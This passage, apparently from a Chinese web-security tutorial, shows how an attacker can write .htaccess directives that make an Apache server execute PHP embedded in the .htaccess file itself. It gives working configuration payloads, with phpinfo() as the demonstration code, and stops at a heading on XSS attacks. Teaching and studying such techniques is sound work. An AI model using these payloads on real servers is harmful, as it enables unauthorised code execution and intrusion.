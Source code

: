 [![](https://p4.ssl.qhimg.com/t017adc61278406f0b6.png)](https://p4.ssl.qhimg.com/t017adc61278406f0b6.png)

#### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E8%A7%A3%E6%9E%90%20.htaccess%20%E6%96%87%E4%BB%B6"></a>通过解析 .htaccess 文件
- 方法一：通过包含 .htaccess 自身
```
php_value auto_append_file .htaccess
#&lt;?php phpinfo();?&gt;
```

即让所有的 PHP 文件都包含 .htaccess 文件自身：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0105e8aa38b09e6fbc.png)
- 方法二：直接将 .htaccess 文件当做 PHP文件处理
这种方法适合目标环境当前目录或子目录下没有 PHP 文件的情况下。

需要先在 .htaccess 里面设置允许访问 .htaccess 文件，否则是直接访问 .htaccess 文件是Forbidden的：

```
&lt;Files ~ "^.ht"&gt;
    Require all granted
    Order allow,deny
    Allow from all
&lt;/Files&gt;
```

然后再设置将 .htaccess 指定当做 PHP 文件处理并解析：

```
SetHandler application/x-httpd-php
# &lt;?php phpinfo();?&gt;
```

最终 .htaccess 文件里面的内容为：

```
&lt;Files ~ "^.ht"&gt;
    Require all granted
    Order allow,deny
    Allow from all
&lt;/Files&gt;
SetHandler application/x-httpd-php
# &lt;?php phpinfo();?&gt;
```

然后我们直接访问 .htaccess 文件即可把 .htaccess 文件当做 PHP 文件处理并执行里面的 PHP 代码：

[![](https://p1.ssl.qhimg.com/t01a7bab4e8077ec879.png)](https://p1.ssl.qhimg.com/t01a7bab4e8077ec879.png)

### <a class="reference-link" name="%E8%BF%9B%E8%A1%8C%20XSS%20%E6%94%BB%E5%87%BB"></a>进行 XSS 攻击
